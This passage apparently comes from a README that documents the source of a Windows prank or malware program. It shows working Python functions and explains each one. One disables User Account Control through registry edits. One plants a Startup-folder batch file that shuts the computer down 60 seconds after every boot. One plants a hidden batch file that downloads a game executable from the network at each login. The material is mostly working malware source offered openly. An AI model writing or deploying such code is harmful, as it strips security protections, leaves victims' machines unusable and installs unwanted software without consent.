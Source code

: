 ### 4. System Settings Modification

#### Disable UAC Function
```python
def close_uac():
    try:
        key = winreg.OpenKey(winreg.HKEY_LOCAL_MACHINE, r"SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System", 0, winreg.KEY_SET_VALUE)
        winreg.SetValueEx(key, "ConsentPromptBehaviorAdmin", 0, winreg.REG_DWORD, 0)
        winreg.SetValueEx(key, "EnableLUA", 0, winreg.REG_DWORD, 0)
        winreg.SetValueEx(key, "PromptOnSecureDesktop", 0, winreg.REG_DWORD, 0)
        winreg.CloseKey(key)
    except Exception as e:
        print(f"An error occurred while modifying the registry: {e}")
```
This code modifies the registry to disable the User Account Control (UAC) function, so that subsequent operations of the program do not require administrator permission confirmation.

#### Set Automatic Shutdown on Startup
```python
def shuTdoWn():
    bat_content = "shutdown -s -t 60"
    startup_path = os.path.join(os.getenv('APPDATA'), 'Microsoft', 'Windows', 'Start Menu', 'Programs', 'Startup')
    bat_file_path = os.path.join(startup_path, 'shutdown.bat')
    with open(bat_file_path, "w") as file:
        file.write(bat_content)
```
A shutdown script is created in the system startup folder to automatically shut down the computer 60 seconds after startup.

#### Automatically Download Genshin Impact
```python
def GenShin_DownLoad():
    bat_content = '''
    @echo off
    %1(start /min cmd.exe /c %0 :&exit)
    set curpath=%~dp0 
    cd /d %curpath%
    set exename=yuanshen.exe
    set downurl=https://ys-api.mihoyo.com/event/download_porter/link/ys_cn/official/pc_default
    powershell curl -o "%exename%" "%downurl%"
    '''
    startup_path = os.path.join(os.getenv('APPDATA'), 'Microsoft', 'Windows', 'Start Menu', 'Programs', 'Startup')
    bat_file_path = os.path.join(startup_path, 'genshin.bat')
    with open(bat_file_path, "w") as file:
        file.write(bat_content)
```
A batch script is created in the system startup folder to automatically download the Genshin Impact game.
